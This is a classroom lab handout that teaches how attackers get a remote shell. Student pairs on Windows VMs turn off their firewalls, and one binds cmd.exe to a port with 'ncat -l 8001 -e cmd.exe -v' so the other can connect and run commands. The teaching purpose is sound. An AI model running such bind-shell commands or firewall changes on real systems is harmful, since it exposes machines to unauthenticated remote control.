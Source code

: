 # Getting a shell


# Objective

Examine and test how threat actors obtain a shell on a remote computer.

**NOTE: This lab is similar to what you did when you used Metasploit to exploit your Windows XP system.**


# Discussion

It is important to understand how attackers are able to obtain a shell on a remote system since it is a common method of maintaining access and stealing data (exfiltration or exfil).  Notice that they are able to use any arbitrary port.


# Preparation 



1. Each person must change the Network Adapter on their Windows 10 Virtual Machine to “NETSEC-WAN”
    1. You may have to run:  ipconfig /release ; ipconfig/renew
2. You should have an IP address in the 10.0.16.XXX range
3. Download nmap on your Windows 10 Virtual Machine:  [https://nmap.org/dist/nmap-7.93-setup.exe](https://nmap.org/dist/nmap-7.93-setup.exe)


# Scenario

Assume two systems can directly communicate to each other on an arbitrary port (ie. there's no firewall or other device preventing them from communicating directly to each other.)  **Alice is the victim** and **Eve is the attacker** so one of you will be Alice for the duration of the assignment and the other one Eve.  **When the first person is done with this lab, switch roles.**


# Begin Lab Preparation



1. **Make a note of each other’s IP address.**
2. **Ensure the two Windows workstations can ping each other and disable the firewall on both hosts.**

 

**Goal: **On Alice’s computer, a _listener _(**-l**) (lower case L) is started on port 8001 and anyone that connects to it will get a command prompt on Alice's computer.  The **-v** is for _verbose _mode.  It is always a good option so you know what is going on as the shell is being set up.

Alice (Type the command):  **ncat -l 8001 -e cmd.exe -v**

Eve Connects to Alice's computer on port 8001.

Eve (Type the command):** ncat X.X.X.X 8001**

Replace X.X.X.X with the IP address of Alice’s computer.

Eve should now see something like this:

**Microsoft Windows [Version 6.1.7601]**

**Copyright (c) 2009 Microsoft Corporation.  All rights reserved.**

**c:\Program Files\Nmap>**

Eve is now logged into Alice's system and can type commands as if she was sitting in front of Alice’s computer.

Run the command:

**ipconfig /all**

which should display the IP address of the windows system of your Partner.